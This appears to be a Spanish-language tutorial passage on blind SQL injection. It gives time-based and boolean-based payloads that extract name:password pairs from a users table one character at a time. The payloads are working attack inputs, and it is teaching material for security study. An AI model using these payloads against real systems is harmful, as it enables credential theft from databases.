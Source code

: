 #### Original QUERY: 
```sql 
SELECT username FROM users WHERE user_id='%d'
```

#### SQLI basada en tiempo: 
```sql
-- Supongamos que realizamos la prubea de ingresar el usuario 1 y devuelve 200 OK  
SELECT username FROM users WHERE user_id=1 
-- Ahora ingresamos el usuario 1241 y devuelve 404
SELECT username FROM users WHERE user_id=1241
-- Ahora jugamos con el tiempo para corroborar si la petición devuelve 200 OK a los 5s de ejecutarla (Indicando asi, que es TRUE)
SELECT username FROM users WHERE user_id=1241 OR if(ascii(substr((select group_concat(name,0x3a,password) from users),1,1))=97,sleep(5),1)
```

### Con esta QUERY maliciosa `OR if(ascii(substr((select group_concat(name,0x3a,password) from users),1,1))=97,sleep(5),1)` estamos abusando de que el usuario 1241 no existe para verificar si esta sentencia se cumple, pidiendo que si el codigo ascii del primer caracter del conjunto de valores de "name" + 0x3a (":") + "password" es igual a 97 (Letra 'a' en codigo ascii), hagamos que la página tarde en responder 5s (sleep(5)), de lo contrario devolvemos solo un 200 OK.


- # Inyección SQL basada en booleanos:
### Este tipo de **SQLI** utiliza consultas con **expresiones booleanas** para obtener información adicioanl. Por ejemplo, se puede utilizar una consulta con una expresión booleana para determinar si un usuario existe en una base de datos.

#### Original QUERY: 
```sql 
SELECT username FROM users WHERE user_id='%d'
```

#### SQLI basa en tiempo: 
```sql
-- Supongamos que realizamos la prubea de ingresar el usuario 1 y devuelve 200 OK  
SELECT username FROM users WHERE user_id=1 
-- Ahora ingresamos el usuario 1241 y devuelve 404
SELECT username FROM users WHERE user_id=1241
-- Ahora jugamos con el booleano, ya que sabemos que la primea petición no se cumple si se cumple la 2da podriamos ir deduciendo los datos
SELECT username FROM users WHERE user_id=1241 OR (select ascii(substr(group_concat(name,0x3a,password),1,1))=97)
```

### Con esta QUERY maliciosa `(select ascii(substr(group_concat(name,0x3a,password),1,1))=97)` muy similar a la condición de tiempo, estamos abusando de que el usuario 1241 no existe para corroborar si la segunda query es TRUE y asi saber los valores, en este caso seleccionamos el conjunto de datos del nombre y la contraseña para fijarnos si el primer caracter en codigo ascii es un valor '97' en codigo ascii, equivalente a una 'a', de esta manera si el primer usuario fuera admin, la primera letra del mismo seria una a, en codigo ascii 97 y la query quedaria 97=97, por lo que seria true y devolveria un 200 OK.
